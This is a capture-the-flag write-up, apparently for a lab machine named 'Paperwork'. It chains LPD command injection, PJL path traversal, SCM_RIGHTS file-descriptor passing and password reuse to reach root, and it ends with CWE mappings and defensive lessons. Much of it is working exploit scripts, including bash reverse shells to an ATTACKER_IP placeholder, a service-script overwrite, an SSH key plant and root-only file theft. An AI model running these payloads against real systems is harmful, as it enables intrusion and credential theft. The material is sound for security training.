




## Table of Contents
1. [Reconnaissance](#reconnaissance)
2. [Stage 1 - LPD Command Injection to lp Shell](#stage-1---lpd-command-injection-to-lp-shell)
3. [Stage 2 - PJL Path Traversal to archivist](#stage-2---pjl-path-traversal-to-archivist)
4. [Stage 3 - SCM_RIGHTS Exploit to Admin Password](#stage-3---scm_rights-exploit-to-admin-password)
5. [Stage 4 - Root via Password Reuse](#stage-4---root-via-password-reuse)
6. [Summary](#summary)

---

## Reconnaissance

### Nmap Scan

```bash
$ sudo nmap -sC -sV -Pn -n 10.10.10.10 -oA paperwork_nmap
```

**Results:**

| Port | State | Service | Version |
|------|-------|---------|---------|
| 22   | open  | ssh     | OpenSSH 10.0p2 Ubuntu |
| 80   | open  | http    | nginx 1.28.0 (Ubuntu) |
| 1515 | open  | lpd     | Custom LPD service |

Nmap identified port 1515 as returning `"Archive_Printer is ready and printing."` for LPD queue state requests.

### Adding the host to /etc/hosts

The nginx server redirected to `paperwork.htb`:

```bash
$ sudo nano /etc/hosts
# Add: 10.10.10.10  paperwork.htb
```

### Web App Enumeration

Browsing to `http://paperwork.htb/` revealed an "Intake Portal" page with:

| Field | Value |
|-------|-------|
| Protocol | `Compliance Level: RFC 1179` (LPD) |
| Target Queue | `archive_intake` |
| Internal Processor | `paperwork-archive-v1.02` (clickable link to `/download/archive`) |
| Maintenance Advisory | "Backend spooler PRN-ARCHIVE-01 management console is currently offline. Manual ingestion remains active via the legacy gateway." |



The `/download/archive` link served a ZIP file containing `server.py` — a custom LPD server implementation with an obvious command injection vulnerability.

### Source Code Review — server.py

```python
import socket, threading, subprocess, os

VALID_QUEUE = os.environ.get("LPD_QUEUE")  # = "archive_intake"

class LpdHandler(threading.Thread):
    def handle_print_job(self, data):
        queue = data[1:].decode().strip()
        if queue not in VALID_QUEUE:
            self.sock.send(b'\x01')
            return
        self.sock.send(b'\x00')
        while True:
            chunk = self.sock.recv(1024)
            subcommand = chunk[0]
            self.sock.send(b'\x00')
            if subcommand == 2:  # Control File
                # ... parses J field as job_name ...
                job_name = line[1:]
                subprocess.Popen(f"echo 'Archive: {job_name}' >> /tmp/archive.log", shell=True)
```

**Vulnerability:** The `job_name` from the control file is interpolated directly into a shell command with `shell=True`. Breaking out of single quotes yields OS command injection.

---

## Stage 1 - LPD Command Injection to lp Shell

### Crafting the Exploit

The LPD protocol (RFC 1179) requires sending multiple packets with acknowledgments between them:

1. Send `\x02<queue>\n` → server responds `\x00` if queue valid
2. Send `\x02<size> <name>\n` → subcommand for control file
3. Send control file content (contains `J<job_name>`)
4. Send `\x03<size> <name>\n` → subcommand for data file
5. Send data file content

The injection payload breaks out of single quotes in `echo 'Archive: {job_name}'`:

```python
job_name = "'; bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' ; echo '"
```

Resulting in:
```bash
echo 'Archive: '; bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' ; echo '' >> /tmp/archive.log
```

### Exploit Script

```python
#!/usr/bin/env python3
import socket, time

TARGET = "10.10.10.10"
PORT = 1515
QUEUE = "archive_intake"
LHOST = "ATTACKER_IP"
LPORT = 4444

# Reverse shell payload (breaks out of single quotes)
payload = f"'; bash -c 'bash -i >& /dev/tcp/{LHOST}/{LPORT} 0>&1' ; echo '"
control_file = f"Hattacker\nProot\nJ{payload}\n"
data_file = "dummy\n"

s = socket.socket()
s.settimeout(10)
s.connect((TARGET, PORT))

# Step 1: Receive printer job command
s.send(b'\x02' + QUEUE.encode() + b'\n')
assert s.recv(1024) == b'\x00', "Queue rejected"

# Step 2: Receive control file subcommand
s.send(b'\x02' + str(len(control_file)).encode() + b' cfA001attacker\n')
s.recv(1024)

# Step 3: Send control file content
s.send(control_file.encode())
s.recv(1024)

# Step 4: Receive data file subcommand
s.send(b'\x03' + str(len(data_file)).encode() + b' dfA001attacker\n')
s.recv(1024)

# Step 5: Send data file content
s.send(data_file.encode())
s.recv(1024)
s.close()
```

### Getting the Shell

On attacker machine:
```bash
$ nc -lvnp 4444
```

Run the exploit:
```bash
$ python3 exploit.py
```

Shell received as `lp`:
```
connect to [ATTACKER_IP] from (UNKNOWN) [10.10.10.10] 53736
bash: cannot set terminal process group (985): Inappropriate ioctl for device
lp@paperwork:/opt/LPDServer$ id
uid=7(lp) gid=7(lp) groups=7(lp)
```

### Upgrading to Interactive TTY

```bash
lp@paperwork:/tmp$ python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z to background
$ stty raw -echo; fg
# Back in shell:
$ export TERM=xterm
$ export SHELL=bash
```

### Local Enumeration (lp user)

```bash
lp@paperwork:/tmp$ ss -tlnp
```

```
Proto  Local Address          State    PID/Program
tcp    0.0.0.0:22             LISTEN   -
tcp    0.0.0.0:80             LISTEN   -
tcp    0.0.0.0:1515           LISTEN   985/python3        # LPD (lp)
tcp    127.0.0.1:1337         LISTEN   -                  # Flask (root)
tcp    127.0.0.1:9100         LISTEN   -                  # JetDirect (archivist)
```

Process list revealed the running services:

```
root       966  /usr/bin/python3 /root/staging/CorpoSite/app.py
archivist  984  /usr/bin/python3 /home/archivist/printer/jetdirect.py 9100 ...
lp         985  /usr/bin/python3 /opt/LPDServer/server.py
root      1491  /usr/bin/python3 /usr/bin/paperwork-daemon
```

Key findings:
- Port 9100 (JetDirect) runs as `archivist` — target for user flag
- Port 1337 (Flask) runs as `root` — target for root flag
- `paperwork-daemon` runs as root and listens on Unix socket

---

## Stage 2 - PJL Path Traversal to archivist

### Probing Port 9100

Initial probes with raw text failed — port 9100 hung or returned nothing. The key insight: this is a custom HP JetDirect PJL implementation requiring the proper enter-mode sequence:

1. Send `\x1b%-12345X@PJL\r\n` to enter PJL mode
2. Use `\r\n` line endings (not just `\n`)
3. `FSUPLOAD` = read file (reversed from standard PJL!)
4. `FSDOWNLOAD` = write file (reversed from standard PJL!)

### Reading the jetdirect.py Source

```python
import socket, time

def pjl_read(path):
    s = socket.socket()
    s.settimeout(5)
    s.connect(('127.0.0.1', 9100))
    s.sendall(b'\x1b%-12345X@PJL\r\n')
    time.sleep(0.3)
    s.sendall(f'@PJL FSUPLOAD NAME="{path}"\r\n'.encode())
    time.sleep(0.5)
    data = b''
    try:
        while True:
            chunk = s.recv(4096)
            if not chunk: break
            data += chunk
    except: pass
    s.close()
    return data

print(pjl_read('jetdirect.py').decode(errors='replace'))
```

### The Vulnerability — Path Traversal

The `Filesystem._translate` method uses `os.path.join` + `os.path.normpath` without verifying the result stays within the root directory:

```python
class Filesystem:
    def __init__(self, root_dir):
        self._root = os.path.abspath(root_dir)  # /home/archivist/printer/

    def _translate(self, path):
        clean = path.replace("0:", "").replace("\\", "/").lstrip("/")
        return os.path.normpath(os.path.join(self._root, clean))
        # No check that result is still under self._root!
```

This allows `../` traversal to access any file readable by the archivist user.

### Reading user.txt

```python
print(pjl_read('../user.txt').decode(errors='replace'))
```

```
@PJL FSUPLOAD NAME="../user.txt" SIZE=33
84ee4b24b679062f7dc50b18be540bd2
```

**User flag captured.** ✅

### Writing SSH Key for archivist

Generate a keypair on the attacker machine:
```bash
$ ssh-keygen -t ed25519 -f /tmp/archivist_key -N ""
$ cat /tmp/archivist_key.pub
```

Write the public key to `/home/archivist/.ssh/authorized_keys` via PJL FSDOWNLOAD:

```python
import socket, time

KEY = b'ssh-ed25519 AAAA... kali@kali'  # Your public key

s = socket.socket()
s.settimeout(10)
s.connect(('127.0.0.1', 9100))
s.sendall(b'\x1b%-12345X@PJL\r\n')
time.sleep(0.3)
s.sendall(b'@PJL FSDOWNLOAD NAME="../.ssh/authorized_keys" SIZE=' + str(len(KEY)).encode() + b'\r\n')
time.sleep(0.3)
s.recv(4096)
s.sendall(KEY)
time.sleep(0.3)
s.recv(4096)
s.close()
```

### SSH Login Fails — Permission Issue

```bash
$ ssh -i /tmp/archivist_key archivist@10.10.10.10
archivist@10.10.10.10's password:  # Asking for password = key rejected
```

The key was written but SSH's `StrictModes` rejects it because:
- `.ssh` directory was created with mode `755` (needs `700`)
- `authorized_keys` was created with mode `644` (needs `600`)

### Fixing Permissions via Service Restart

The JetDirect service runs as `archivist` and has `Restart=on-failure` in systemd. The trick:

1. Overwrite `jetdirect.py` with a script that fixes permissions AND spawns a reverse shell
2. Crash the service (null byte in path causes `ValueError`)
3. Systemd restarts it as `archivist`
4. The new process fixes SSH permissions and gives us a shell

```python
import socket, time

ATTACKER_IP = "ATTACKER_IP"
ATTACKER_PORT = 4446

# Reverse shell + permission fixer
PAYLOAD = f'''#!/usr/bin/env python3
import os, subprocess, time
try:
    os.chmod("/home/archivist/.ssh", 0o700)
    os.chmod("/home/archivist/.ssh/authorized_keys", 0o600)
except: pass
subprocess.Popen(["bash", "-c", "bash -i >& /dev/tcp/{ATTACKER_IP}/{ATTACKER_PORT} 0>&1"])
while True:
    time.sleep(60)
'''.encode()

# Step 1: Overwrite jetdirect.py
s = socket.socket()
s.settimeout(10)
s.connect(('127.0.0.1', 9100))
s.sendall(b'\x1b%-12345X@PJL\r\n')
time.sleep(0.3)
s.sendall(b'@PJL FSDOWNLOAD NAME="jetdirect.py" SIZE=' + str(len(PAYLOAD)).encode() + b'\r\n')
time.sleep(0.3)
s.recv(4096)
s.sendall(PAYLOAD)
time.sleep(0.3)
s.recv(4096)
s.close()

# Step 2: Crash jetdirect (null byte causes ValueError)
s = socket.socket()
s.settimeout(5)
s.connect(('127.0.0.1', 9100))
s.sendall(b'\x1b%-12345X@PJL\r\n')
time.sleep(0.3)
s.sendall(b'@PJL FSUPLOAD NAME="test\x00crash"\r\n')
time.sleep(2)
s.close()
```

Start listener on attacker:
```bash
$ nc -lvnp 4446
```

Within 5 seconds, a shell as `archivist` arrives:
```
connect to [ATTACKER_IP] from (UNKNOWN) [10.10.10.10] 50314
archivist@paperwork:~/printer$ id
uid=1000(archivist) gid=1000(archivist) groups=1000(archivist)
```



---

## Stage 3 - SCM_RIGHTS Exploit to Admin Password

### Discovering paperwork-daemon

Reading `/usr/bin/paperwork-daemon` (root process, PID 1491) revealed a Unix socket daemon:

```python
#!/usr/bin/env python3
import socket, os, array, hashlib, zipfile

admin_fd = os.open("/etc/paperwork/admin_pins.conf", os.O_RDONLY)  # root-only file
LOG_PATH = "/home/archivist/printer/logs/commands.log"

def scan_for_malice():
    with open(LOG_PATH, 'r') as f:
        content = f.read().upper()
        if any(trigger in content for trigger in ["FSQUERY", "FSUPLOAD", "FSDOWNLOAD"]):
            return True
    return False

def trigger_lockdown(conn):
    log_fd = os.open(LOG_PATH, os.O_RDONLY)
    evidence_bundle = array.array("i", [log_fd, admin_fd])  # Two file descriptors!
    msg = b"ALERT: SECURITY_VIOLATION. FORENSIC_CONTEXT_ATTACHED."
    conn.sendmsg([msg], [(socket.SOL_SOCKET, socket.SCM_RIGHTS, evidence_bundle)])
    # ... zips log, truncates it ...

def main():
    socket_path = "/run/paperwork/mgmt.sock"
    s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
    s.bind(socket_path)
    os.chmod(socket_path, 0o660)
    os.chown(socket_path, 0, 1000)  # root:archivist
    s.listen(5)
    while True:
        conn, _ = s.accept()
        if scan_for_malice():
            trigger_lockdown(conn)
        else:
            secret = get_admin_secret()
            token = hashlib.sha256(f"SYSTEM_CLEAN:{secret}".encode()).hexdigest()
            conn.sendall(f"STATUS: SYSTEM_CLEAN\nSIGNATURE: {token}\n".encode())
        conn.close()
```

### The Vulnerability — SCM_RIGHTS File Descriptor Passing

The daemon:
1. Listens on `/run/paperwork/mgmt.sock` (mode `660`, owner `root:archivist`)
2. When `commands.log` contains trigger keywords (`FSQUERY`, `FSUPLOAD`, `FSDOWNLOAD`), it calls `trigger_lockdown()`
3. `trigger_lockdown()` sends the caller **open file descriptors** to:
   - `commands.log` (the log file)
   - `admin_pins.conf` (the root-only file containing `ADMIN_PASSWORD=...`)

The `SCM_RIGHTS` mechanism passes file descriptors over Unix sockets. The receiver can read/write through these fds **regardless of file permissions** — the kernel tracks open fds by number, not by path.

### Exploit Script

As `archivist`, write the trigger keyword to `commands.log`, then connect to the socket and receive the file descriptors:

```python
import socket, os, struct, time

# Step 1: Write trigger keyword to commands.log
with open('/home/archivist/printer/logs/commands.log', 'a') as f:
    f.write('Command: @PJL FSQUERY NAME="trigger"\n')
time.sleep(1)

# Step 2: Connect to mgmt.sock and receive SCM_RIGHTS
s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
s.settimeout(10)
s.connect('/run/paperwork/mgmt.sock')

# recvmsg returns (data, ancillary, flags, address)
msg, anc, flags, addr = s.recvmsg(16384, 1024)
print(f'Message: {msg.decode().strip()}')

# Step 3: Extract file descriptors from ancillary data
for level, type, content in anc:
    if level == socket.SOL_SOCKET and type == socket.SCM_RIGHTS:
        fds = struct.unpack('i' * (len(content) // 4), content)
        for fd in fds:
            os.lseek(fd, 0, 0)  # Rewind to start
            data = os.read(fd, 1024).decode(errors='replace')
            if 'ADMIN_PASSWORD' in data:
                password = data.split('ADMIN_PASSWORD=')[1].strip()
                print(f'ADMIN PASSWORD: {password}')
s.close()
```

### Output

```
Message: ALERT: SECURITY_VIOLATION. FORENSIC_CONTEXT_ATTACHED.
ADMIN PASSWORD: ApparelMortuaryCedar22
```

**Admin password obtained.** ✅



---

## Stage 4 - Root via Password Reuse

The admin password was reused as the root password (classic credential reuse vulnerability):

```bash
archivist@paperwork:~/printer$ su -
Password: ApparelMortuaryCedar22

root@paperwork:~# whoami
root
root@paperwork:~# cat /root/root.txt
96e3c424c33214b1fd27a35fb9098dc8
```

**Root flag captured.** ✅



---

## Summary

| Step | Technique | Result |
|------|-----------|--------|
| Recon | Nmap + web enumeration | Found LPD (1515), Flask (1337), JetDirect (9100) |
| Stage 1 | LPD command injection via `job_name` field | Shell as `lp` |
| Stage 2 | PJL path traversal in JetDirect filesystem | Read user.txt, write SSH key, shell as `archivist` |
| Stage 3 | SCM_RIGHTS file descriptor passing | Read root-only `admin_pins.conf` |
| Stage 4 | Password reuse (admin = root) | Root shell |

### Key vulnerabilities exploited

1. **OS Command Injection (CWE-78)** in LPD server — `job_name` interpolated directly into shell command with `shell=True`
2. **Path Traversal (CWE-22)** in JetDirect PJL filesystem — `os.path.normpath` without verifying result stays in root
3. **Improper Privilege Management (CWE-269)** in paperworks daemon — passes privileged file descriptors over Unix socket
4. **Information Exposure via SCM_RIGHTS (CWE-200)** — root-only file accessible through passed file descriptors
5. **Password Reuse (CWE-257)** — admin password identical to root password
6. **Missing Authentication (CWE-306)** — JetDirect PJL service requires no authentication

### Lessons learned

- **Never use `shell=True` with user input.** Use `subprocess.run` with argument lists.
- **Validate path traversal.** After `os.path.normpath`, verify the result starts with the intended root directory.
- **Don't pass privileged file descriptors over sockets.** Use `SO_PEERCRED` to verify caller identity before sending fds.
- **Never reuse passwords.** Especially across admin and root accounts.
- **PJL protocols need authentication.** Any network-accessible PJL service should require credentials.
- **File descriptor passing is powerful.** `SCM_RIGHTS` can bypass file permissions entirely — treat any fd you receive as a privilege escalation vector.

### The full attack chain

```
Internet
   │
   │ LPD :1515 (command injection)
   ▼
lp user
   │
   │ PJL :9100 (path traversal → write SSH key → crash → restart as archivist)
   ▼
archivist user
   │
   │ Unix socket /run/paperwork/mgmt.sock
   │ (trigger lockdown → SCM_RIGHTS → read admin_pins.conf)
   ▼
Admin password (ApparelMortuaryCedar22)
   │
   │ su - root (password reuse)
   ▼
root
```

---

*Writeup by mikias*
                            